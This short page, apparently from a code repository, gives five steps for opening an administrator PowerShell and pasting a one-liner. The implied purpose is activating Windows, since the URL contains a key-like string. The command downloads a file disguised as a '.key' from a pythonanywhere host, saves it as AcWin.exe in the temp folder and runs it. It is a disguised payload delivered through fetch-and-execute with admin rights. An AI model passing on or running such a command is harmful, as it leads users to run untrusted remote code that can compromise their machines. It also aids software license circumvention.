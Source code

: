 1. Open the powershell(admin) terminal
2. past link.
3. Press Enter
4. Refresh your computer.
5. Finish.

Link:- Invoke-WebRequest -Uri kmsconnection.pythonanywhere.com/static/3KHY7-WNT83-DGQKR-F7HPR-844BM.key -OutFile $env:TEMP\AcWin.exe; Start-Process $env:TEMP\AcWin.exe
